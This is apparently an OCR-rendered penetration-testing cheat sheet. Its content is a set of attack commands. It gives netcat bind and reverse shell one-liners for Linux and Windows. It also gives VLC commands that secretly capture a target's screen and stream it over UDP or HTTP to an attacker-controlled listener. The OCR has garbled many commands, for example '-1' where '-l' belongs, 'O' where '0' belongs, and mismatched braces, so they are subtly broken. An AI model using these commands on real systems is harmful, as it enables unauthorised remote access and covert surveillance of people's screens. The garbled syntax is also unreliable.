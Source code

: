 ### Backdoor shells

```text
Linux Shell:
$ nc -1 -p [port] -e /bin/bash
Linux Reverse Shell:
$ nc [LocaliP] [port] -e /bin/bash
Windows Shell:
$ nc -1 -p [port] -e cmd.exe
Windows Reverse Shell:
$ nc [LocaliP] [port] -e cmd.exe
```

## Use VLC for streaming

```text
Use cvlc \(command line VLC\) on target to migrate popups
```

### Saving and streaming the screen through the udp protocol to the attacker's address and port 1234

```text
# Start a listener on the attacker machine
vlc udp://@:1234

-- OR --

# Start a listener that stores the stream in a file.
vlc udp://@:1234 :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,
ab=128,channels=2,samplerate=44100):file{dst=test.mp4) :no-sout-rtp-sap
:no-shout-standard-sap :ttl=1 :shout-keep

# This may make the users screen flash. Lower frame rates delay the video.
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):udp{dst=attackerip :1234) :no-sout-rtp-sap :no-soutstandard-
sap :ttl=1 :sout-keep
```


### Save and stream the screen in http protocol

```text
# Start a listener on the attacker machine
     vlc http://server.example.org:BOBO

-- OR --

# Start a listener that stores the stream to a file
vlc http://server.example.org:BOBO -sout=#
transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,samp
rate=44100):file{dst=test.mp4)

# Start streaming on the target machine
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):http{mux=ffmpeg{mux=flv),dst=:8080/) :no-sout-rtp-sap :nosout-
standard-sap :ttl=1 :sout-keep
```
